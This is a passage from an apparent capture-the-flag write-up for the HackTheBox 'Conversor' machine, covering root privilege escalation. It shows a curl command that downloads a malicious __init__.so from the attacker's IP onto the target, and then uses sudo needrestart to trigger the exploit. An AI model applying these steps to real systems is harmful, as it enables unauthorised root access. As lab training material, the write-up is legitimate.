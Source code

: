After making the files, we can set up python http server:
```bash
┌──(agonen㉿kali)-[~/htb/Conversor]
└─$ python3 -m http.server 8081                     
Serving HTTP on 0.0.0.0 port 8081 (http://0.0.0.0:8081/) ...
```

Now, let's move to the victim machine, here we first get `__init__.so` to home folder:
```bash
fismathack@conversor:~$ curl http://10.10.16.23:8081/__init__.so -o __init__.so
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 15520  100 15520    0     0  20910      0 --:--:-- --:--:-- --:--:-- 20916
fismathack@conversor:~$ ls
__init__.so  runner.sh  user.txt
```

Now, we can execute `runner.sh`:
```bash
{% include_relative runner.sh %}
```

Then, we open another session using different window, login via `ssh` and triggering the exploit, by executing `needrestart`
```bash
fismathack@conversor:~$ sudo /usr/sbin/needrestart 
Scanning processes...                                                                                                                            
Scanning linux images...                                                                                                                         

Running kernel seems to be up-to-date.

No services need to be restarted.

No containers need to be restarted.

No user sessions are running outdated binaries.

No VM guests are running outdated hypervisor (qemu) binaries on this host.
```

![get root flag](image-5.png)
